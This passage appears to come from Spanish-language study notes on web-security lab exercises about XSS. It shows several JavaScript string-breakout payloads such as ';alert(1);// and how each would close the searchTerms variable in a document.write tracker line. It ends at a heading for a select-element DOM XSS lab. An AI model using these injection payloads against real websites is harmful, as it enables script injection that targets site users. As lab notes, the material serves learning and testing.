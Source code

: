 ![](/img2/Pasted%20image%2020250722191008.png)

> Tenemos varias formas de inyectar código malicioso:

```javascript
var searchTerms = '';alert(1);//'; 
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');             
```

```javascript
var searchTerms = '';alert(1);';'; document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');             
```

```javascript
var searchTerms = '';alert(1); var test='test'; document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');             
```

- Injection

```javascript
';alert(1);//
```

```javascript
';alert(1);';
```

```javascript
';alert(1); var test='test
```

## XSS DOM con 'document.write' dentro de 'select' || DOM XSS in document.write sink using source location.search inside a select element

![](/img2/Pasted%20image%2020250722200531.png)
